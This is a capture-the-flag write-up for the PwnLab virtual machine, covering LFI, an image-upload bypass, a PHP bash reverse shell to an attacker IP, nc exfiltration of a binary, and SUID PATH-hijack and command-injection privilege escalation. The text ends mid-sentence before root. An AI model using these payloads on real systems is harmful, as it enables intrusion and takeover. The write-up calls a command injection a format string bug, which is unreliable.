# Pwnlab


## Enumeration

### `nmap` scan

```bash
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Pwnlab-full-port-scan.txt 192.168.1.170
PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: PwnLab Intranet Image Hosting
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          43982/udp   status
|   100024  1          45935/tcp   status
|   100024  1          57068/tcp6  status
|_  100024  1          59812/udp6  status
3306/tcp  open  mysql   MySQL 5.5.47-0+deb8u1
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.47-0+deb8u1
|   Thread ID: 41
|   Capabilities flags: 63487
|   Some Capabilities: DontAllowDatabaseTableColumn, Support41Auth, ConnectWithDatabase, LongColumnFlag, Speaks41ProtocolOld, SupportsTransactions, SupportsLoadDataLocal, InteractiveClient, IgnoreSigpipes, ODBCClient, Speaks41ProtocolNew, IgnoreSpaceBeforeParenthesis, SupportsCompression, FoundRows, LongPassword, SupportsMultipleStatments, SupportsAuthPlugins, SupportsMultipleResults
|   Status: Autocommit
|   Salt: k4^]:JDSX?sD:5:env*h
|_  Auth Plugin Name: mysql_native_password
45935/tcp open  status  1 (RPC #100024)
```

### HTTP (port 80)

#### `gobuster`

```
$ gobuster dir -u http://192.168.1.170 -w /usr/share/dirb/wordlists/common.txt
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/images (Status: 301)
/index.php (Status: 200)
/server-status (Status: 403)
/upload (Status: 301)
```

#### `nikto` vulnerability scan



#### Web page

- `index.php`: 



- `upload.php`:



- `login.php`:



Because of this common pattern between the two pages `upload` and `login`, I wanted to check if the website is vulnerable to **LFI** (**L**ocal **F**ile **I**nclusion).

#### LFI

Indeed:



Thanks to `nikto` we saw earlier that there is a `config.php` page. 

Let's get base64 code of each page we identified so far.

In `config.php` source code:

```php
<?php
$server	  = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>
```

### MySQL (port 3306)

Since we have credentials, we can connect to the MySQL database:



We gathered three usernames and their passwords:

- **username**: kent; **password**: JWzXuBJJNy
- **username**: mike; **password**: SIfdsTEn6I
- **username**: kane; **password**: iSv5Ym2GRo

## Reverse shell

Using credentials stored in MySQL, we can go back log in and upload some files:



Due to `getimagesize` PHP function used in `upload.php`, I remembered [hackers-grimoire - file upload bypass](https://vulp3cula.gitbook.io/hackers-grimoire/exploitation/web-application/file-upload-bypass)

I wanted t

### GIF89a; magic bytes


If we want to pass the image check, we can add a GIF file header to our malicious file. 

I renamed the file as **ping.gif**:

```
GIF89;  
<?php system("ping -c1 192.168.1.171") ?>
```

By the way, the file is now considerate as a legitimate image:

```bash
$ file ping.gif 
ping.gif: GIF image data 8224 x 15370
```

After uploading the image we can retrieve its location by inspecting the source code:



Now we have the image PATH: `upload/360ae33efb11f1be532d46e9daf60828.gif`.

### `tcpdump` ping test

In order to ensure that code execution works, we can try to include the image we uploaded by setting `lang cookie` to `../upload/360ae33efb11f1be532d46e9daf60828.gif`:



And it worked, **pwnlab** pinged us (`tcpdump` as proof):

```bash
$ tcpdump icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
12:38:56.995815 IP pwnlab > kali: ICMP echo request, id 1222, seq 1, length 64
12:38:56.995833 IP kali > pwnlab: ICMP echo reply, id 1222, seq 1, length 64
^C
2 packets captured
2 packets received by filter
0 packets dropped by kernel
```

### Final payload

Our final file:

```
GIF89;  
<?php exec("bash -c 'bash -i >& /dev/tcp/192.168.1.171/1234 0>&1'"); ?>
```

**lang** cookie is now equal to:

`../upload/dfbb431572245b404f7db316d70bfc70.gif`

First I thought it didn't worked, but after pressing _"Go back one page"_, I got a shell:






## Privesc (`kane` to `mike`)

By using [MySQL credentials](#mysql-port-3306), I was able to log in as `kent` and `kane` but not as `mike`.

- **kent**:

```bash
www-data@pwnlab:/home$ su kent
su kent
Password: JWzXuBJJNy

kent@pwnlab:/home$
kent@pwnlab:/home$ cd kent
kent@pwnlab:~$ ls -la
total 20
drwxr-x--- 2 kent kent 4096 Mar 17  2016 .
drwxr-xr-x 6 root root 4096 Mar 17  2016 ..
-rw-r--r-- 1 kent kent  220 Mar 17  2016 .bash_logout
-rw-r--r-- 1 kent kent 3515 Mar 17  2016 .bashrc
-rw-r--r-- 1 kent kent  675 Mar 17  2016 .profile
```

There is nothing interesting in kent's folder. Let's try to log in as mike:

- **mike**:

```bash
kent@pwnlab:~$ su mike
su mike
Password: SIfdsTEn6I
su: Authentication failure
```

- **kane**:

```bash
kent@pwnlab:~$ su - kane
su - kane
Password: iSv5Ym2GRo
kane@pwnlab:~$
```

In kane's folder, there is a **SUID binary** called `msgmike`:

```bash
kane@pwnlab:~$ cd 
kane@pwnlab:~$ ls -la
total 28
drwxr-x--- 2 kane kane 4096 Mar 17  2016 .
drwxr-xr-x 6 root root 4096 Mar 17  2016 ..
-rw-r--r-- 1 kane kane  220 Mar 17  2016 .bash_logout
-rw-r--r-- 1 kane kane 3515 Mar 17  2016 .bashrc
-rwsr-sr-x 1 mike mike 5148 Mar 17  2016 msgmike
-rw-r--r-- 1 kane kane  675 Mar 17  2016 .profile
kane@pwnlab:~$ file msgmike
msgmike: setuid, setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=d7e0b21f33b2134bd17467c3bb9be37deb88b365, not stripped
kane@pwnlab:~$ 
```

### Transfer `msgmike` to our machine

#### Method #1: base64

```bash
kane@pwnlab:~$ base64 msgmike
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
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAATJYECAAAAAAAAAAAFoMECCaDBAg2gwQIRoMECFaDBAgA
AAAAAAAAAEdDQzogKERlYmlhbiA0LjkuMi0xMCkgNC45LjIAR0NDOiAoRGViaWFuIDQuOC40LTEp
IDQuOC40AAAuc3ltdGFiAC5zdHJ0YWIALnNoc3RydGFiAC5pbnRlcnAALm5vdGUuQUJJLXRhZwAu
bm90ZS5nbnUuYnVpbGQtaWQALmdudS5oYXNoAC5keW5zeW0ALmR5bnN0cgAuZ251LnZlcnNpb24A
LmdudS52ZXJzaW9uX3IALnJlbC5keW4ALnJlbC5wbHQALmluaXQALnRleHQALmZpbmkALnJvZGF0
YQAuZWhfZnJhbWVfaGRyAC5laF9mcmFtZQAuaW5pdF9hcnJheQAuZmluaV9hcnJheQAuamNyAC5k
eW5hbWljAC5nb3QALmdvdC5wbHQALmRhdGEALmJzcwAuY29tbWVudAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAA0gQQIAAAAAAMAAQAAAAAASIEECAAAAAADAAIAAAAAAGiBBAgAAAAAAwADAAAAAACMgQQI
AAAAAAMABAAAAAAArIEECAAAAAADAAUAAAAAAByCBAgAAAAAAwAGAAAAAAB6ggQIAAAAAAMABwAA
AAAAiIIECAAAAAADAAgAAAAAAKiCBAgAAAAAAwAJAAAAAACwggQIAAAAAAMACgAAAAAA2IIECAAA
AAADAAsAAAAAAACDBAgAAAAAAwAMAAAAAABggwQIAAAAAAMADQAAAAAAJIUECAAAAAADAA4AAAAA
ADiFBAgAAAAAAwAPAAAAAABYhQQIAAAAAAMAEAAAAAAAhIUECAAAAAADABEAAAAAAECWBAgAAAAA
AwASAAAAAABElgQIAAAAAAMAEwAAAAAASJYECAAAAAADABQAAAAAAEyWBAgAAAAAAwAVAAAAAAA0
lwQIAAAAAAMAFgAAAAAAOJcECAAAAAADABcAAAAAAFiXBAgAAAAAAwAYAAAAAABglwQIAAAAAAMA
GQAAAAAAAAAAAAAAAAADABoAAQAAAAAAAAAAAAAABADx/wwAAABIlgQIAAAAAAEAFAAZAAAAoIME
CAAAAAACAA0ALgAAANCDBAgAAAAAAgANAEEAAAAQhAQIAAAAAAIADQBXAAAAYJcECAEAAAABABkA
ZgAAAESWBAgAAAAAAQATAI0AAAAwhAQIAAAAAAIADQCZAAAAQJYECAAAAAABABIAuAAAAAAAAAAA
AAAABADx/wEAAAAAAAAAAAAAAAQA8f/CAAAAPIYECAAAAAABABEA0AAAAEiWBAgAAAAAAQAUAAAA
AAAAAAAAAAAAAAQA8f/cAAAARJYECAAAAAAAABIA7QAAAEyWBAgAAAAAAQAVAPYAAABAlgQIAAAA
AAAAEgAJAQAAOJcECAAAAAABABcAHwEAACCFBAgCAAAAEgANAC8BAAAAAAAAAAAAACAAAABLAQAA
kIMECAQAAAASAg0AYQEAAFiXBAgAAAAAIAAYAGwBAABglwQIAAAAABAAGABzAQAAJIUECAAAAAAS
AA4AeQEAAFiXBAgAAAAAEAAYAIYBAAAAAAAAAAAAABIAAACYAQAAAAAAAAAAAAAgAAAApwEAAFyX
BAgAAAAAEQIYALQBAAA8hQQIBAAAABEADwDDAQAAAAAAAAAAAAASAAAA1wEAAAAAAAAAAAAAEgAA
APQBAACwhAQIYQAAABIADQAEAgAAZJcECAAAAAAQABkACQIAAGCDBAgAAAAAEgANABACAAA4hQQI
BAAAABEADwAXAgAAYJcECAAAAAAQABkAIwIAAFuEBAhTAAAAEgANACgCAAAAAAAAAAAAABIAAAA8
AgAAAAAAAAAAAAAgAAAAUAIAAGCXBAgAAAAAEQIYAFwCAAAAAAAAAAAAACAAAAB2AgAA2IIECAAA
AAASAAsAAGNydHN0dWZmLmMAX19KQ1JfTElTVF9fAGRlcmVnaXN0ZXJfdG1fY2xvbmVzAHJlZ2lz
dGVyX3RtX2Nsb25lcwBfX2RvX2dsb2JhbF9kdG9yc19hdXgAY29tcGxldGVkLjYyNzkAX19kb19n
bG9iYWxfZHRvcnNfYXV4X2ZpbmlfYXJyYXlfZW50cnkAZnJhbWVfZHVtbXkAX19mcmFtZV9kdW1t
eV9pbml0X2FycmF5X2VudHJ5AG1zZ21pa2UuYwBfX0ZSQU1FX0VORF9fAF9fSkNSX0VORF9fAF9f
aW5pdF9hcnJheV9lbmQAX0RZTkFNSUMAX19pbml0X2FycmF5X3N0YXJ0AF9HTE9CQUxfT0ZGU0VU
X1RBQkxFXwBfX2xpYmNfY3N1X2ZpbmkAX0lUTV9kZXJlZ2lzdGVyVE1DbG9uZVRhYmxlAF9feDg2
LmdldF9wY190aHVuay5ieABkYXRhX3N0YXJ0AF9lZGF0YQBfZmluaQBfX2RhdGFfc3RhcnQAc3lz
dGVtQEBHTElCQ18yLjAAX19nbW9uX3N0YXJ0X18AX19kc29faGFuZGxlAF9JT19zdGRpbl91c2Vk
AHNldHJldWlkQEBHTElCQ18yLjAAX19saWJjX3N0YXJ0X21haW5AQEdMSUJDXzIuMABfX2xpYmNf
Y3N1X2luaXQAX2VuZABfc3RhcnQAX2ZwX2h3AF9fYnNzX3N0YXJ0AG1haW4Ac2V0cmVnaWRAQEdM
SUJDXzIuMABfSnZfUmVnaXN0ZXJDbGFzc2VzAF9fVE1DX0VORF9fAF9JVE1fcmVnaXN0ZXJUTUNs
b25lVGFibGUAX2luaXQAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABsA
AAABAAAAAgAAADSBBAg0AQAAEwAAAAAAAAAAAAAAAQAAAAAAAAAjAAAABwAAAAIAAABIgQQISAEA
ACAAAAAAAAAAAAAAAAQAAAAAAAAAMQAAAAcAAAACAAAAaIEECGgBAAAkAAAAAAAAAAAAAAAEAAAA
AAAAAEQAAAD2//9vAgAAAIyBBAiMAQAAIAAAAAUAAAAAAAAABAAAAAQAAABOAAAACwAAAAIAAACs
gQQIrAEAAHAAAAAGAAAAAQAAAAQAAAAQAAAAVgAAAAMAAAACAAAAHIIECBwCAABeAAAAAAAAAAAA
AAABAAAAAAAAAF4AAAD///9vAgAAAHqCBAh6AgAADgAAAAUAAAAAAAAAAgAAAAIAAABrAAAA/v//
bwIAAACIggQIiAIAACAAAAAGAAAAAQAAAAQAAAAAAAAAegAAAAkAAAACAAAAqIIECKgCAAAIAAAA
BQAAAAAAAAAEAAAACAAAAIMAAAAJAAAAQgAAALCCBAiwAgAAKAAAAAUAAAAMAAAABAAAAAgAAACM
AAAAAQAAAAYAAADYggQI2AIAACMAAAAAAAAAAAAAAAQAAAAAAAAAhwAAAAEAAAAGAAAAAIMECAAD
AABgAAAAAAAAAAAAAAAQAAAABAAAAJIAAAABAAAABgAAAGCDBAhgAwAAwgEAAAAAAAAAAAAAEAAA
AAAAAACYAAAAAQAAAAYAAAAkhQQIJAUAABQAAAAAAAAAAAAAAAQAAAAAAAAAngAAAAEAAAACAAAA
OIUECDgFAAAfAAAAAAAAAAAAAAAEAAAAAAAAAKYAAAABAAAAAgAAAFiFBAhYBQAALAAAAAAAAAAA
AAAABAAAAAAAAAC0AAAAAQAAAAIAAACEhQQIhAUAALwAAAAAAAAAAAAAAAQAAAAAAAAAvgAAAA4A
AAADAAAAQJYECEAGAAAEAAAAAAAAAAAAAAAEAAAAAAAAAMoAAAAPAAAAAwAAAESWBAhEBgAABAAA
AAAAAAAAAAAABAAAAAAAAADWAAAAAQAAAAMAAABIlgQISAYAAAQAAAAAAAAAAAAAAAQAAAAAAAAA
2wAAAAYAAAADAAAATJYECEwGAADoAAAABgAAAAAAAAAEAAAACAAAAOQAAAABAAAAAwAAADSXBAg0
BwAABAAAAAAAAAAAAAAABAAAAAQAAADpAAAAAQAAAAMAAAA4lwQIOAcAACAAAAAAAAAAAAAAAAQA
AAAEAAAA8gAAAAEAAAADAAAAWJcECFgHAAAIAAAAAAAAAAAAAAAEAAAAAAAAAPgAAAAIAAAAAwAA
AGCXBAhgBwAABAAAAAAAAAAAAAAAAQAAAAAAAAD9AAAAAQAAADAAAAAAAAAAYAcAADkAAAAAAAAA
AAAAAAEAAAABAAAAEQAAAAMAAAAAAAAAAAAAAJkHAAAGAQAAAAAAAAAAAAABAAAAAAAAAAEAAAAC
AAAAAAAAAAAAAACgCAAAUAQAAB0AAAAtAAAABAAAABAAAAAJAAAAAwAAAAAAAAAAAAAA8AwAAHwC
AAAAAAAAAAAAAAEAAAAAAAAA
```

We copy this base64 string to a file called `msgmike.b64` on our machine and then we can decode it:

```bash
$ cat msgmike.b64 | base64 -d > msgmike.bin
$ file msgmike.bin 
msgmike.bin: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=d7e0b21f33b2134bd17467c3bb9be37deb88b365, not stripped
```

#### Method #2: nc

- Attacker's machine:

```bash
$ nc -l -p 4444  > msgmike < /dev/null
^C
```

- Victim's machine:

```bash
$ cat msgmike | nc 192.168.1.171 4444
```

### Analyzing the binary

Thanks to `file` command, we already know that the binary is not stripped which means that it contains symbols that will ease the analysis.

#### ghidra decompilation

Passing the binary to `ghidra`'s decompiler, we can retrieve code close to the original source code:



The binary use `system` function to run `cat`. But there is an issue. Indeed `cat` is called without its absolute path. So if we change our `$PATH` variable and name a malicious binary `cat`, it will be executed with mike's privileges _(since it's a SUID binary)_.

### Exploitation

```bash
kane@pwnlab:~$ which bash
/bin/bash
kane@pwnlab:~$ echo "/bin/bash" > ./cat
kane@pwnlab:~$ cat ./cat
/bin/bash
kane@pwnlab:~$ chmod +x ./cat
kane@pwnlab:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
kane@pwnlab:~$ export PATH=.
kane@pwnlab:~$ ./msgmike
bash: dircolors: command not found
bash: ls: command not found
mike@pwnlab:~$ id
id
bash: id: command not found
mike@pwnlab:~$ export PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
</usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games                    
mike@pwnlab:~$ id
id
uid=1002(mike) gid=1002(mike) groups=1002(mike),1003(kane)
mike@pwnlab:~$ 
```

YES, now we're `mike`!

## Root

Going to mike's home directory, there is another SUID binary `msg2root`:

```bash
mike@pwnlab:/home/mike$ ls -la
ls -la
total 28
drwxr-x--- 2 mike mike 4096 Mar 17  2016 .
drwxr-xr-x 6 root root 4096 Mar 17  2016 ..
-rw-r--r-- 1 mike mike  220 Mar 17  2016 .bash_logout
-rw-r--r-- 1 mike mike 3515 Mar 17  2016 .bashrc
-rwsr-sr-x 1 root root 5364 Mar 17  2016 msg2root
-rw-r--r-- 1 mike mike  675 Mar 17  2016 .profile
mike@pwnlab:/home/mike$ 
```

Let's transfer it to our machine:



Using `ghidra`'s decompiler:



This time, it looks like a format string vulnerability. 

Indeed, if we execute `id` through this binary, we can see that `euid`, `egid` and `groups` are updated:

```bash
mike@pwnlab:/home/mike$ ./msg2root
./msg2root
Message for root: ''; id #
''; id #

uid=1002(mike) gid=1002(mike) euid=0(root) egid=0(root) groups=0(root),1003(kane)
mike@pwnlab:/home/mike$
```

Let's have shell:

```bash
mike@pwnlab:/home/mike$ ./msg2root
./msg2root
Message for root: ''; bash #
''; bash #

bash-4.3$ id
id
uid=1002(mike) gid=1002(mike) groups=1002(mike),1003(kane)
bash-4.3$
```


It didn't worked because we have to specify `-p` option in order to have a shell as root:

